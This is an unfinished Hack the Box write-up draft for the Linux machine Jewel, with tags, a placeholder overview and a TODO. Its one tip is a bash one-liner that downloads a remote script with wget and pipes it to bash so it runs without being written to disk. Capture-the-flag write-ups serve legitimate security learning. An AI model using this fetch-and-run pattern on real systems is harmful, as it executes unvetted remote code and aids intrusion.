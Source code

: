 ```yaml
---
description: >-
  Zweilosec's writeup on the medium-difficulty Linux machine Jewel from
  https://hackthebox.eu
title: Hack the Box - Jewel Writeup
date: 2021-02-15 08:00:00 -0600
categories: [Hack the Box, Writeup]
tags: [htb, hacking, hack the box, redteam, linux, ntp, 2fa, totp, web, burp, git, ruby, rails, sql, medium, writeup, polarbearer, unfinished]     # TAG names should always be lowercase
show_image_post: true
image: /assets/img/0-jewel-infocard.png
---
```


# HTB - Jewel

## Overview

![](/assets/img/0-jewel-infocard.png)

Short description to include any strange things to be dealt with

TODO: finish writeup and clean up

## Useful Skills and Tools

### Execute a shell script payload without writing to disk

```bash
wget -O - -q $url:$port/$file | bash
```
